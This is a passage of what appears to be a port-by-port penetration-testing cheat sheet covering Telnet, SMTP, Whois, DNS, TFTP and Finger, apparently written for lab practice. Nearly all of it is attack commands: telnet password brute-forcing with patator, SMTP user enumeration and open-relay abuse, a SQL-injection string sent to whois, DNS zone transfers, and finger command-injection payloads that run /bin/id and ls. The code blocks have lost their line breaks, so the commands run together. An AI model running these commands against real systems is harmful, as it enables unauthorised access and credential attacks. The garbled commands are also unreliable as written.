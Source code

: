 ```
# Get bannertelnet 10.11.1.110# Bruteforce passwordpatator telnet_login host=10.11.1.110 inputs='FILE0\\nFILE1' 0=/root/Desktop/user.txt 1=/root/Desktop/pass.txt  persistent=0 prompt_re='Username: | Password:'
```

## Port 25 - SMTP

```
nc -nvv 10.11.1.111 25HELO footelnet 10.11.1.111 25VRFY rootnmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.11.1.111smtp-user-enum -M VRFY -U /root/sectools/SecLists/Usernames/Names/names.txt -t 10.11.1.111# SMTP relaymsfconsoleuse auxiliary/scanner/smtp/smtp_relayset RHOSTS <IP or File>set MAILFROM <PoC email address>set MAILTO <your email address>run# Send email unauth:MAIL <FROM:admin@admin.com>RCPT <TO:DestinationEmail@DestinationDomain.com>DATAtest.Receive:250 OK
```

## Port 43 - Whois

```
whois -h 10.10.1.111 -p 43 "domain.com"echo "domain.com" | nc -vn 10.10.1.111 43whois -h 10.10.1.111 -p 43 "a') or 1=1#"
```

## Port 53 - DNS

```
# Transfer zonedig AXFR domain.com @10.10.10.10# dig +multi AXFR @ns1.insecuredns.com insecuredns.comdnsrecon -t axfr -d domainfierce -dns domain.com
```

## Port 69 - UDP - TFTP

- Vulns tftp in server 1.3, 1.4, 1.9, 2.1, and a few more.
- Same checks as FTP Port 21.

```
nmap -p69 --script=tftp-enum.nse 10.11.1.111
```

## Port 79 - Finger

```
nc -vn 10.11.1.111 79echo "root" | nc -vn 10.11.1.111 79# User enumerationfinger @10.11.1.111       \#List usersfinger admin@10.11.1.111  \#Get info of userfinger user@10.11.1.111   #Get info of userfinger "|/bin/id@example.com"finger "|/bin/ls -a /@example.com"
```

## Port 88 - Kerberos

Check Kerberos dedicated section

```
```